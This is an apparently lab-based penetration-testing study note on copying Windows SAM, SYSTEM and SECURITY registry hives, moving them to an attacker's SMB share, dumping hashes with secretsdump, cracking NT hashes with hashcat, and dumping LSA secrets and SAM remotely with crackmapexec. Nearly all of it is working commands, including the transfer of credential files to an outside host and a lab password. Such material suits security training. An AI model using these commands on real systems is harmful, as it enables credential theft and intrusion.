 With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database. With this we can start cracking hashes offline.

#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target
each will have a specific purpose when we get to dumping and cracking the hashes.

|                 |                                                                                                                                                            |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |
#### Using reg.exe save to Copy Registry Hives

open CMD as admin 

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) in combination with some useful CMD commands to move the hive copies to a share created on our attack host.

#### Creating a Share with smbserver.py

```shell-session
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Know that the `smb2support` option will ensure that newer versions of SMB are supported. If we do not use this flag, there will be errors when connecting from the Windows target to the share hosted on our attack host.
#### Moving Hive Copies to Share

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.
```shell-session
canklesmaks@htb[/htb]$ ls

sam.save  security.save  system.save
```

## Dumping Hashes with Impacket's secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system

Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

```shell-session
canklesmaks@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

* _**Most modern Windows operating systems store the password as an NT hash_
* Operating systems older than Windows Vista & Windows Server 2008 store passwords as an **LM hash

* Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords
	*  Iitmay be beneficial to make a note of each user, so we know which password is associated with which user account.

we can populate a text file with the NT hashes we were able to dump.

```shell-session
sudo vim hashestocrack.txt
```

#### Running Hashcat against NT Hashes

```shell-session
canklesmaks@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
* `-m` to select the hash type `1000` to crack our NT hashes
	* (also referred to as NTLM-based hashes).
	* using the infamous rockyou.txt wordlist mentioned in the [[Credential Storage]]section of this module.
* Keep in mind that this is a well-known technique, so admins may have safeguards to prevent and detect it.

## Remote Dumping & LSA Secrets Considerations

* ***LSA secrets is a special protected storage for important data used by the Local Security Authority (LSA) in Windows
	* With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network.
* We can use this to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords
#### Dumping LSA Secrets Remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
#### Dumping SAM Remotely

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```